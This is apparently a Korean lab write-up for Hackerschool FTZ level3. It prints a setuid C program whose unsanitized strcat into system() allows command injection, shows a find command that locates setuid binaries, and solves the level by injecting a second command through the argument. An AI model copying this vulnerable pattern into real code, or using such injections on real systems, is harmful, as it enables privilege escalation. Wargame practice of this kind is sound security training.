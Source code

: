 # Hackserschool FTZ level3

-  앞서 한것처럼 hint를찾으면
~~~c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){

    char cmd[100];

    if( argc!=2 ){
        printf( "Auto Digger Version 0.9\n" );
        printf( "Usage : %s host\n", argv[0] );
        exit(0);
    }

    strcpy( cmd, "dig @" );
    strcat( cmd, argv[1] );
    strcat( cmd, " version.bind chaos txt");

    system( cmd );

}
~~~
---

    이를 이용하여 level4의 권한을 얻어라.

    more hints.

    -동시에 여러 명령어를 사용하려면?

    -문자열 형태로 명령어를 전달하려면?

이라는 힌트가 나오는데 

- 우선 level4권한을 찾으면 
    > find / -user level4 -perm -4000 2>/dev/null
    >>/bin/autodig 

    가나오는데 
    이것을 실행해야 하는데 2개의 txt형식의 변수를 입력해야 하기 때문에  **";my-pass"**
    를 입력하면 된다.

    *이때 ""의 의미는 문자열 형식*
    
    *그리고 ;는 1개이상의 수를 입력할때 사용*

    



